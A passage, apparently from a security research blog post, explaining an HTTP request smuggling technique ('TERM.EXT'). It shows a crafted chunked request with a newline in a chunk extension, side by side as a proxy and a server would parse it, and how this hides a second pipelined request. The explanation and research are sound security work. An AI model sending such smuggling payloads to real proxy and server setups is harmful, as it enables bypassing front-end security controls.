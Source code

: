 <span class="http-line-break">\r\n</span>
GET /two HTTP/1.1<span class="http-line-break">\r\n</span>
Host: localhost<span class="http-line-break">\r\n</span>
Transfer-Encoding: chunked<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
</span><span class="http-highlight http-highlight-three"><span class="http-highlight-head http-highlight-three-compl">0<span class="http-line-break">\r\n</span><span class="http-highlight-text">last chunk</span>
</span><span class="http-line-break">\r\n</span>
</span></code></pre>

<p style="text-align: center; font-weight: bold;">TERM interpretation (proxy)</p>
</div>

<div style="flex: 1;">

<pre><code>GET /one HTTP/1.1<span class="http-line-break">\r\n</span><span class="http-highlight-text-req"><b>request #1</b></span>
Host: localhost<span class="http-line-break">\r\n</span>
Transfer-Encoding: chunked<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
<span class="http-highlight http-highlight-one"><span class="http-highlight-head http-highlight-one-compl">2;<span class="http-line-break">\n</span><span class="http-highlight-text">chunk header</span>
xx<span class="http-line-break">\r\n</span>
</span>45<span class="http-line-break">\r\n</span><span class="http-highlight-text">chunk body</span>
</span><span class="http-highlight http-highlight-two"><span class="http-highlight-head http-highlight-two-compl">0<span class="http-line-break">\r\n</span><span class="http-highlight-text">last chunk</span>
</span><span class="http-line-break">\r\n</span>
</span>GET /two HTTP/1.1<span class="http-line-break">\r\n</span><span class="http-highlight-text-req"><b>request #2</b></span>
Host: localhost<span class="http-line-break">\r\n</span>
Transfer-Encoding: chunked<span class="http-line-break">\r\n</span>
<span class="http-line-break">\r\n</span>
<span class="http-highlight http-highlight-one"><span class="http-highlight-head http-highlight-one-compl">0<span class="http-line-break">\r\n</span><span class="http-highlight-text">last chunk</span>
</span><span class="http-line-break">\r\n</span>
</span></code></pre>

<p style="text-align: center; font-weight: bold;">EXT interpretation (server)</p>
</div>
</div>

The key thing to notice in this request is of course the newline in the chunk extension which causes the parsing discrepancy. The proxy, interpreting the newline as a line terminator, will consider `45` the size of the second chunk, whereas the server will consider it the content of the first chunk. As such, a second pipelined request can be hidden in what the proxy perceives as the body of the second chunk.

*__Note__: The vulnerability I now presumptuously have coined 'TERM.EXT' was actually [documented](https://github.com/mattiasgrenfeldt/bachelors-thesis-http-request-smuggling) back in 2021 by Matthias Grenfeldt and Asta Olofsson. I've taken the liberty of naming it to reflect its place in the broader family of chunk parsing vulnerabilities.*
